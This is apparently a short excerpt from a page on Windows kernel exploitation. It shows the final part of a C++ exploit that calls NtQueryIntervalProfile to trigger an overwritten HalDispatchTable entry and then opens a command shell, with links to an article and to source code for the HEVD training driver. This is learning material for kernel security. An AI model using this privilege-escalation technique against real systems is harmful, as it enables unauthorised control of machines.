 ```cpp
    PtrNtQueryIntervalProfile _NtQueryIntervalProfile = (PtrNtQueryIntervalProfile)GetProcAddress(ntdll, "NtQueryIntervalProfile");
    printf("[+] Address of NtQueryIntervalProfile: 0x%x.\n", _NtQueryIntervalProfile);
    ULONG whatever;
    _NtQueryIntervalProfile(2, &whatever);

    system("cmd.exe");

    return 0;
}
```

[Статья](https://osandamalith.com/2017/06/14/windows-kernel-exploitation-arbitrary-overwrite/)

[Сорцы](https://github.com/OsandaMalith/Exploits/blob/master/HEVD/FindHalDispatchTable.cpp)
